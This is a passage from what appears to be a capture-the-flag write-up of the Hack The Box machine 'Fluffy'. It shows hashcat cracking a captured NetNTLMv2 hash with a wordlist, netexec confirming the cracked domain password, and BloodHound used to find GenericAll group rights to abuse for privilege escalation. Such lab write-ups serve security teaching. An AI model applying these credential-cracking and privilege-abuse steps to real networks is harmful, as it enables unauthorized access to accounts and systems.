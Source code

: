 We got a hash! I can then use hashcat to crack it.

```cmd
> hashcat.exe -a 0 -m 5600 fluffy.hash ..\wordlists\rockyou.txt
```

After a while the following result was given: `prometheusx-303`. I try the credentials and they work.

```bash
netexec smb fluffy.htb -u p.agila -p 'prometheusx-303'
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\p.agila:prometheusx-303
```

### Thinking in graphs

Happy about getting a new user I went to bloodhound and mark this new user as **Owned**. I then checked what kind of privileges had.

![placeholder](assets/img/htb/fluffy/fluffy-bh1.png "GenericAll privileges")

I noticed the `p.agila` user was member of the `Service Account Managers` group which had `GenericAll` permission on the `Service Accounts` group meaning I could add any user I wanted to that group.
